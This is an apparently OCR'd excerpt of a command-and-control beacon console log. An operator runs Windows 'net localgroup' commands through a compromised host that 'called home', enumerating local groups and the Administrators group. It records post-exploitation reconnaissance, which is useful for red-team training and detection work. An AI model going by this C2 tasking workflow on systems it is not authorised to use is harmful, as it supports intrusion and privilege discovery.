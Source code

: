 ```

*Event Log Readers

*Guests

*Hyper-V Administrators

*IIS_IUSRS

*Network Configuration Operators

*Performance Log Users

*Performance Monitor Users

*Power Users

*Print Operators

*RDS Endpoint Servers

*RDS Management Servers

*RDS Remote Access Servers

*Remote Desktop Users

*Remote Management Users

*Replicator

*Storage Replica Administrators

*System Managed Accounts Group

*Users

The command completed successfully.




[10/06 16:36:17] beacon> shell net localgroup Administrator
[10/06 16:36:17] [*] Tasked beacon to run: net localgroup Administrator
[10/06 16:36:17] [+] host called home, sent: 59 bytes
[10/06 16:36:17] [+] received output:
System error 1376 has occurred.



The specified local group does not exist.




[10/06 16:36:29] beacon> shell net localgroup Administrators
[10/06 16:36:29] [*] Tasked beacon to run: net localgroup Administrators
[10/06 16:36:33] [+] host called home, sent: 60 bytes
[10/06 16:36:33] [+] received output:
Alias name     Administrators

Comment        Administrators have complete and unrestricted access to the computer/domain

```